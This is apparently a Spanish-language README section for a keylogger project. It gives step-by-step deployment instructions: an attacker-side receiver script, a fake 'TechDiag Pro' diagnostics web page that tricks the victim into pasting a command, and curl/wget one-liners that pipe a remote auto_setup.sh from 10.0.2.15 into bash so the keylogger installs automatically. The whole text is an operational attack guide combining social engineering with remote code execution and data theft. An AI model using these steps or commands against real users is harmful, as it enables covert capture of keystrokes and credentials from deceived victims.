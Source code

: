 > ⚠️ **Importante**: Los dos servicios usan puertos diferentes para evitar conflictos.

## 🚀 Despliegue Completo

### 1. Preparar Máquina Atacante

```bash
# En tu máquina atacante
mkdir attacker-machine && cd attacker-machine

# Copiar solo el receptor
cp /path/to/project/data_receiver.py .
echo "requests" > requirements.txt

# Instalar dependencias
pip3 install -r requirements.txt

# Iniciar servidor receptor (puerto 8080)
python3 data_receiver.py --port 8080 --output received_data
```

### 2. Servir Archivos con Interfaz Web

```bash
# En el directorio del proyecto (puerto 8000)
python3 -m http.server 8000

# La interfaz web estará disponible en:
# http://TU_IP:8000
# 
# Características de la interfaz:
# ✅ Diseño profesional "TechDiag Pro"
# ✅ Dos opciones: Diagnóstico Completo/Rápido
# ✅ Instrucciones automáticas para la víctima
# ✅ Copia automática de comandos al portapapeles
```

### 3. Ejecutar en Máquina Víctima

#### 🌐 Opción A: Interfaz Web (Más Profesional)
```bash
# 1. Abrir navegador en máquina víctima
# 2. Ir a: http://10.0.2.15:8000
# 3. Ver interfaz "TechDiag Pro - Sistema de Diagnóstico Empresarial"
# 4. Hacer clic en "Iniciar Diagnóstico Completo"
# 5. Copiar comando mostrado y pegarlo en terminal
# 6. El keylogger se ejecutará automáticamente
```

#### 💻 Opción B: Instalación Automática (Backup)
```bash
# Desde la máquina víctima
curl -s http://10.0.2.15:8000/auto_setup.sh | bash

# O con wget
wget -q -O - http://10.0.2.15:8000/auto_setup.sh | bash
```
